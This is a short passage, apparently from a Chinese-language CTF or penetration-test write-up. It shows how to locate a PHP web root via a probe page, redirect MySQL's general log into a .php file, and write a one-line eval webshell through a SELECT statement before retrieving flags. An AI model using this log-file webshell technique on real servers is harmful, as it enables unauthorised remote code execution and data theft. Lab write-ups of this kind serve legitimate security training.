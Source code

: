 

<img src="https://i-blog.csdnimg.cn/blog_migrate/4a71d6148f9bfddc04f67ebf4a7c9136.png" alt="" style="max-height:256px; box-sizing:content-box;" />


获取到地址 然后开始写入

这里还有一个获取地址的方法

通过php探针 我们在上面扫到了 l.php 去访问一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/f4d99ece097247e028d021ccf4c92782.png" alt="" style="max-height:278px; box-sizing:content-box;" />


```cobol
set global general_log_file ='C:\\phpstudy_pro\\WWW\\shell.php'
```

然后我们去访问一下

然后写入木马

```csharp
select '<?php @eval($_POST[cmd]);?>'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/85cc9537883c6b50ae565e966391be88.png" alt="" style="max-height:226px; box-sizing:content-box;" />


getshell 了 然后去看内网 flag就两个是在源代码中 另一个在user的文档中

这里考核的渗透就实现了